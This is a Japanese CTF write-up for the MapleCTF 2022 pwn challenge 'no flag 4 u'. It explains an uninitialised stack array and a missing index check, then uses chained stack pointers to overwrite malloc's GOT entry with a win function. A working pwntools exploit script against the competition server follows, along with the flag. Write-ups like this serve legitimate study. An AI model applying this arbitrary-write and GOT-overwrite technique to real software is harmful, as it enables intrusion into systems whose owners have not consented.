 # MapleCTF 2022 `no flag 4 u [pwn]` writeup

## 問題
I made a thing: https://github.com/Green-Avocado/No-Flag-4-U

Please break it and let me know how you did it!

`nc no-flag-4-u.ctf.maplebacon.org 1337`

実行ファイルとlibc、それから実行用のシェルスクリプトが提供される。

## 解法
セキュリティ機構の確認から。
```
[*] '/home/caffeine/ctf/maplectf22/pwn/no_flag_4_u/chal'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

まさかの逆フルアーマー。
何でもありか。

プログラム自体はheap問でよく見るメモを作成、書き換え、閲覧、削除できるやつ。
BOF、double freeやuse after freeなど何でもやりたい放題 (に見える) なうえに、メモを管理する配列の範囲チェックすらしていない。
win関数も用意されている。

代わりにlibcはいくつかの関数をwrapperした独自のものを使用しているらしく、BOFが検知されたりUTF-8で定義されていないバイト列の入出力が禁止されていたりする。

穴だらけに見えて独自の制約がいろいろありそうなのでgdbで動的解析しながら解法を考えることに。
するとスタックに確保されたメモ管理用配列がNULLで初期化されていないことにすぐ気づけた。
配列の中には、スタック領域のアドレスを保持しているものもある。
Format string attackでよく見る手法だが、スタック上のアドレス*X*にスタックの上のアドレス*Y*が格納されている場合には、以下の手順で任意のアドレス*Z*に任意の値*hoge*を書き込むことができる。

1. アドレス*X*を参照して*Z*を書き込む。
2. アドレス*Y*を参照して*hoge*を書き込む。

今回、*Y*にあたるアドレスは配列の範囲外にあったが、前述の通り配列のインデックスを妥当性確認をしていないため強引に参照することができる。

あとはどのアドレスをwin()のアドレスに書き換えるか。
まぁNo RELROなのでGOTを狙いましょう。
前述の入出力制限が少し面倒に見えたが、malloc()のGOT上のアドレスが都合がよかった。

## Exploit
```py
from pwn import *
import sys

context.arch='i386'

# io = process("./chal")
# io = process("./run.sh")
io = remote("no-flag-4-u.ctf.maplebacon.org", 1337)

elf = ELF("chal")
libc = ELF("libno_flag_4_u.so")

# gdb.attach(io, '''
#     b *0x4014fe
# ''')

def select(x):
    io.sendlineafter(b"5 : Exit\n", str(x).encode())

def index(x):
    io.sendlineafter(b"index: ", str(x).encode())

def content(x):
    io.sendlineafter(b"content: ", x)

def size(x):
    io.sendlineafter(b"size: ", str(x).encode())

def create(i, s, c):
    select(1)
    index(i)
    size(s)
    content(c)

def edit(i, c):
    select(2)
    index(i)
    content(c)

def print(i):
    select(3)
    index(i)
    ret = io.recvuntil(b"1 :")
    return ret[:-3]

def delete(i):
    select(4)
    index(i)

def exit():
    select(5)

edit(16, b'\x10\x35\x40')
edit(0x60, b'\x38\x13\x40')
select(1)
index(0)
size(0x10)

io.interactive()
```

FLAG: `maple{OwO_flag_for_you?}`